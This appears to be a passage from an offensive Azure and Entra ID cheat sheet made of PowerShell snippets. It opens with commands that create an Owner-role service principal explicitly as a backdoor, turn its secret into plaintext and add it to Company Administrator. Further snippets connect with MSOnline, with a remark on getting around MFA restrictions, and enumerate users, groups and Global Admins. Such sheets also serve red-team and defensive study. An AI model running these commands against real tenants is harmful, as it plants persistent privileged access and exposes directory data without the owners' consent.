 Create a new Azure service principal as a backdoor

```powershell
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
$sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
#Enter the AppID as username and what was returned for $UnsecureSecret as the password in the Get-Credential prompt
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
```

### MSOnline PowerShell Module

```powershell
Import-Module MSOnline
```

#### Authentication

```powershell
Connect-MsolService

## Or this way sometimes gets around MFA restrictions

$credential = Get-Credential
Connect-MsolService -Credential $credential
```

#### Account and Directory Information

List Company Information

```powershell
Get-MSolCompanyInformation
```

List all users

```powershell
Get-MSolUser -All
```

List all groups

```powershell
Get-MSolGroup -All
```

List members of a group (Global Admins in this case)

```powershell
Get-MsolRole -RoleName "Company Administrator"
Get-MSolGroupMember –GroupObjectId $GUID
```
